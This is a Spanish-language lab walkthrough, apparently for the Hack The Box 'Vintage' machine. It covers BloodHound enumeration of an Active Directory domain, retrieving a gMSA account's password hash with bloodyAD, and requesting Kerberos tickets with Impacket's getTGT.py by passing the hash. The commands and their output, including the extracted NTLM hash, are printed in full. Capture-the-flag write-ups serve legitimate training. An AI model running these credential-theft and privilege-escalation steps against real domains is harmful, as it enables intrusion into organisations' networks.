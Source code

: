 
20241226122611_computers.json   20241226122611_domains.json  20241226122611_groups.json  20241226122611_users.json
20241226122611_containers.json  20241226122611_gpos.json     20241226122611_ous.json 

levantamos el servidor de bloodhound con

sudo neo4j console

y accedemos por http://localhost:7474
no hacemos nada ahi , y entramos por bloodhound, usando neo4j de user y pass.

Dentro del bloodhound le damos a import data y pasamos todos los .json

Se puede encontrar L.BIANCHI_ADM@VINTAGE.HTBque está en el grupo de administradores de dominio y tiene derechos de administrador.

y GMSA01$@VINTAGE.HTBpuede agregarse al grupo de Administradores

De FS01 a GMSA01, puede ver que FS01 puede leer la contraseña de GMS

Luego, GMS puede agregarse al grupo de administradores.


Utilice GetTGT.py: proporcione contraseña, hash o clave aes para solicitar TGT y guárdelo en formato ccache

KRB5CCNAMEEstablezca la variable de entorno FS01\$.ccachepara especificar el archivo de caché que los clientes Kerberos deben usar.

export KRB5CCNAME=FS01\$.ccache

GMSA01$Utilice bloodyAD para interactuar con Active Directory, a través de la autenticación Kerberos, para obtener la contraseña de la cuenta de servicio administrada denominada (almacenada en msDS-ManagedPasswordel atributo) del controlador de dominio de Active Directory especificado.

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==

Intente obtener un ticket de Kerberos de un controlador de dominio de Active Directory utilizando un hash de cuenta GMSA conocido

python3 getTGT.py vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53 
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache

importante:
export KRB5CCNAME=GMSA01\$.ccache 

Luego agregue P.Rosa a SERVICEMANAGERS, use las credenciales de GMSA y luego genere sus propias credenciales.
